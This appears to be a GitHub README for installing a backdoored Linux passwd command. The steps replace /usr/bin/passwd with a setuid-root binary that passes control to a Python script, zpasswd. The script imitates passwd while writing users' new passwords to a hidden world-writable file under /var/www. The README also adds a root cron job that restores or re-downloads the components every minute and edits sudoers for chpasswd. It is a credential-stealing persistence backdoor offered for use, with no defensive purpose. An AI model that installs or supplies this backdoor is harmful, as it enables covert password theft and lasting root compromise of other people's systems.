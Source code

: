 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/... ; chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd ; chmod 4755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd ; chmod 755 /usr/bin/zpasswd`

Now this is all great, but what if they find parts and starting deleting it? Well first they've kind of screwed theirself unless they find the passwd.orig binary. We want our backdoor to keep running, so we can use a bash script in root's crontab to check if our `passwd`, `zpasswd`, and `...` files are still there.

We will need to make our check-schedule script executable as well as check the permissions are correct

`chmod +x check-schedule ; chmod 755 check-schedule`

Next, we will want to move it into /usr/bin/ and add an entry in root's crontab

`crontab -e`

`*/1 * * * * /usr/bin/check-schedule`

This will go off every minute and check if our files exist, if not either create them or download them and put them where they need to be with the correct ownership and permissions. It will also add a timestamped line to ... of what happened (Downloaded zpasswd, Created ..., etc.)

The last part that you have to do because I have not found a way to get around it, is that you must add a Cmnd_Alias in the `/etc/sudoers` file so that when the new username/password is passed to chpasswd, they will not have to enter their password to do sudo and run chpasswd.

This can be done by typing `visudo` and going down to the Cmnd_Alias section, and adding the line:

`Cmnd_Alias CHPASSWD=/usr/bin/chpasswd`

and saving it.

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user. If they delete either `...`, `zpasswd`, or `passwd` the check-schedule script will fix it. 
